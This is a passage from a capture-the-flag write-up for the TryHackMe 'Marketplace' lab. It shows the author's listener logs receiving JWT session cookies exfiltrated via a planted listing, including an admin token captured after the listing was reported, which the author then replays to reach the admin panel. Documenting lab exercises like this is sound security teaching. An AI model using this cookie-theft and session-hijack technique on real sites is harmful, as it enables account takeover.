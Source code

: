 And I got a request to my listening web server
```
10.2.4.176 - - [08/Jul/2025 19:10:48] "GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiMHgyQiIsImFkbWluIjpmYWxzZSwiaWF0IjoxNzUyMDE1NDk0fQ.wmwACXG-PFvR3Qm6OlAWs7ar2sI4sySqqa49k9pgQYE HTTP/1.1" 404 -
```

I then reported the listing and after a second I got a request
```
10.10.138.5 - - [08/Jul/2025 19:12:26] "GET /token=`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NTIwMTYzNDV9.I9cvVPWDhEynxv1KsLRTMIOkhUI3MA40G6uAoczlMlQ` HTTP/1.1" 404 -
```

I took that token and put it in my cookies and went to the home page and saw I now have access to a administration panel

![image10.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image10.png)

Going in there you will find your first flag! You will also find all the user accounts on the website

![image11.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image11.png)
